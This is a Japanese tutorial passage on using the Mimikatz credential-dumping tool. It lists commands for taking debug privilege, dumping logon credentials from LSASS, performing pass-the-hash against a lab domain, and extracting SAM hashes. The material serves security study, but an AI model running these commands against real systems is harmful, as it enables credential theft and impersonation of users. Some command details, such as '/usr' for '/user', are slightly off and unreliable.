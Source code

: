 
## 慣れろMimikatz！！
ADは完全に理解したと思うので、Mimiaktzのツールとしての使い方に慣れていきましょう。全部記載してもしょうがないので、便利そうなやつだけ記載していきます。  
Mimikatzの基本的なコマンドは先述の通り以下です。  
```
<module>::<command> <arg>
```
  
### スタンダードモジュール  
ぶっちゃけあんま実用的じゃないモジュール。
1. ディレクトリ間を移動する。
```
cd
```
2. コーヒーを表示してくれる。
```
coffee
```
3. hoge.txtにログファイルを出力してくれるので便利。
```
log hoge.txt
```

### privilegeモジュール
重要。Mimikatzプロセスの権限を操作するモジュール。  

1. SeDebugPrivilege、つまりデバッグ権限を取得する。これやらないとダンプとかできない。多分privilegeモジュールで一番使われる。  
```
privilege::debug
```

### sekurlsaモジュール
重要。LSASS.exeプロセスから認証情報とかをダンプできる。  
LSASS.exeはSAMデータベース等とも紐づいているので重要。  

1. 使用可能な全てのプロバイダの資格情報をリストする。  
実行には**SeDebugPrivilege権限**もしくはローカルの**SYSTEM権限**が必要。
```
sekurlsa::logonpasswords
```

2. **Pass the Hash**攻撃を行う。  
実行には**SeDebugPrivilege**権限かローカルのSYSTEM権限が必要。
```
sekurlsa::pth /usr:jen /ntlm:********** /domain:corp.com
```

### lsadumpモジュール
Local Security Authority(LSA)を操作するためのコマンド。大事。  
1. ローカルコンピュータに保存されているパスワードのNTハッシュもしくはLMハッシュを取得する。**SYSTEM権限が必須**。SYSTEM権限取得には**token::elevate**を実行する。  
sekurlsa::dumpと似てるが、あっちはLSASS.exeプロセスからメモリからハッシュを取得するが、lsadump::samはレジストリから取得するらしい。
```
lsadump::sam
```
